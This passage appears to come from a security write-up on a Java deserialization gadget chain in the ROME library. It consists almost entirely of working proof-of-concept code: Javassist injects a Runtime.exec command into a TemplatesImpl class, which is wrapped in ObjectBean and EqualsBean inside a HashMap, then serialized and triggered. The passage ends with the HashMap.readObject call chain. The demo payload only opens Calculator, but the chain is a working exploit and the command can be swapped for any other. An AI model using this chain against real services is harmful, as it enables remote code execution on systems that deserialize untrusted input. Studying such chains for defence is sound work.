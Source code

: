 ```java
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("RomeExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // Instantiate the class and set properties
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // Encapsulate a harmless class and put it in a map
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "h3rmesk1t"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "h3");

        // After put to Map, reflect and write it in to avoid triggering vulnerabilities
        ObjectBean expObjectBean = new ObjectBean(Templates.class, templatesImpl);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));

        // Generate exp
        String exp = serialize(hashMap);
        System.out.println(exp);

        // Trigger exp
        unserialize(exp);
    }

    public static void main(String[] args) {
        try {
            exp();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<div align=center><img src="./images/4.png"></div>

# Call chain
```xml
HashMap.readObject()
    ObjectBean.hashCode()
            EqualsBean.beanHashCode()
                ObjectBean.toString()
                    ToStringBean.toString()
                        TemplatesImpl.getOutputProperties()
```
